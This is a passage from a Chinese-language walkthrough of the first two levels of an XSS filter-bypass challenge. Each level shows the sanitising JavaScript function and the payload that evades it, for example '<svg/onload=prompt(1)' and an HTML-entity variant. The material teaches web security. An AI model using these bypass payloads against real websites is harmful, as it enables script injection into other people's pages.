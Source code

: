 该级别实际是简单的过滤了`>`，需要绕过以下即可。

### 代码

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}

```

### 答案

```
<svg/onload=prompt(1) 

```

注:译者使用js改版[http://sectest.sinaapp.com/xss/level1.php](http://sectest.sinaapp.com/xss/level1.php#%3Csvg/onload=prompt%281%29//),测试答案为

```
<svg/onload=prompt(1)//

```

Level 2
-------

* * *

该级别过滤了`=`、`(`两种符号。

### 代码

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}

```

### 答案

Firefox 和IE下的答案(29个字符)

```
<svg><script>prompt&#40;1)<b>

```
